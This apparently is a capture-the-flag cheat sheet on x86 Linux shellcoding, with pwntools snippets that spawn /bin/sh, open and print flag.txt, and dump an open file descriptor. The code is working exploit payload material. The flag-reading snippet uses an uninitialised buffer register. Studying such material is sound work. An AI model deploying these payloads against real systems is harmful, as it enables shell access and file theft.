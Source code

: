 # Shellcoding

> Shellcoding is the process of writing x86 assembly instructions to achieve a desired goal, commonly executing a shell or reading a file.

## Samples

### `/bin/sh`

```python
shellcode = asm('''
    xor eax, eax
    push eax     

    push 0x68732f2f   
    push 0x6e69622f 

    mov ebx, esp   
    push eax

    push ebx
    mov ecx, esp
    mov al, 0xb     

    int 0x80
''')
```


### `read('flag.txt')`

```python
# OPEN A FILE (flag.txt)
# PRINT FIRST 10 bytes
# CLOSE FILE
shellcode = asm('''
    mov eax, SYS_open

    push 0x0
    push 0x7478742e
    push 0x67616c66

    mov ebx, esp
    mov ecx, O_RDONLY  
    int 0x80

    mov edi, eax        

    mov eax, SYS_read       
    mov ebx, edi
    mov ecx, esi       
    mov edx, 0xa        
    int 0x80

    mov eax, SYS_write     
    mov ebx, 0x1
    mov edx, 0xa

    mov ecx, esi
    int 0x80
''')
```

### `read(fd)`

```python
# read a hanging/open file descriptor

shellcode += asm('''
	xor ebx, ebx

    mov eax, SYS_read
    mov ebx, 0x3e8
    mov ecx, esp
    mov edx, 0xbe
    int 0x80

    mov eax, SYS_write
    mov ebx, 0x1
    mov edx, 0xbe
    mov ecx, esp
    int 0x80
''')
```
